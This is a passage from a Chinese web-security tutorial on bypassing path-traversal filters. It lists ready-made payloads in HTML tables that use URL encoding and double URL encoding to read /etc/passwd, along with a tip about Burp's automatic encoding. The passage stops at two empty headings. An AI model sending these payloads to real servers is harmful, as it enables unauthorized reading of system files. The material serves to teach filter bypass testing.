 简单粗暴，但是burp发包的时候注意编码问题，取消勾选自动url编码  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5l4bpibhINJfHfZaWFL8znCfCDBI4DDgt4UheXibJeskK8hJHyx5okaI34eGR94ziaDicIb1S3RKrgMgw/640?wx_fmt=png&from=appmsg "")  
#### 2、url编码绕过  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %2e 代替 .</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(246, 248, 250);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %2f 代替 /</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=..%2f..%2f..%2f..%2f..%2fetc%2fpasswd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %2e%2e%2f 代替 ../</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd</span></section></td></tr></tbody></table>  
常用绕过一般是后两种，点一般不会被过滤，因为文件名中间也会存在一个 **.**  
#### 3、二次编码绕过  
<table><thead><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th><th style="box-sizing: border-box;padding: 6px 13px;text-align: left;font-weight: 600;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf=""><br/></span></section></th></tr></thead><tbody><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %25%32%65 代替 .</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(246, 248, 250);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %25%32%66 代替 /</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd</span></section></td></tr><tr style="box-sizing: border-box;background-color: rgb(255, 255, 255);border-top: 0.666667px solid rgb(216, 222, 228);"><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">使用 %25%32%65%25%32%65%25%32%66&lt;br&gt;&lt;br&gt;代替 ../</span></section></td><td style="box-sizing: border-box;padding: 6px 13px;border-color: rgb(208, 215, 222);border-style: solid;border-width: 0.666667px;border-image: none 100% / 1 / 0 stretch;"><section><span leaf="">?name=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd</span></section></td></tr></tbody></table>#### 4、将 / 替换为 \ 绕过  
#### 5、%00绕过  
  